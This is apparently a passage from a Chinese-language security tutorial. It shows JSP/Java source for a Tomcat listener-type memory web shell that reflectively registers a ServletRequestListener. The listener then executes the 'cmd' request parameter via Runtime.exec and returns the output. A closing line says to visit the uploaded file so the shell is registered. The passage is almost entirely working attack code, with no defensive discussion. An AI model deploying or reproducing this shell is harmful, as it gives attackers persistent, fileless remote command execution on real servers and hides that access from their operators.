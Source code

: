 ```java
            try{
                String cmd = req.getParameter("cmd");
                if(cmd != null){
                    Field field = req.getClass().getDeclaredField("request");
                    field.setAccessible(true);
                    Request request = (Request) field.get(req);
                    Response response = request.getResponse();
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                    ByteArrayOutputStream bao = new ByteArrayOutputStream();
                    byte[] bytes = new byte[1024];
                    int a = -1;
                    while((a = inputStream.read(bytes))!=-1){
                        bao.write(bytes,0,a);
                    }
                    response.getWriter().write(new String(bao.toByteArray()));
                }
            }catch (Exception e){
                e.printStackTrace();
            }
        }

        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

        }
    }
%>

<%
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request req = (Request) field.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    ListenerTest listenerTest = new ListenerTest();
    standardContext.addApplicationEventListener(listenerTest);
%>
```

访问上传的内存马文件路径使其执行代码，注册内存马
![image-20221028161442814](images/image-20221028161442814.png)
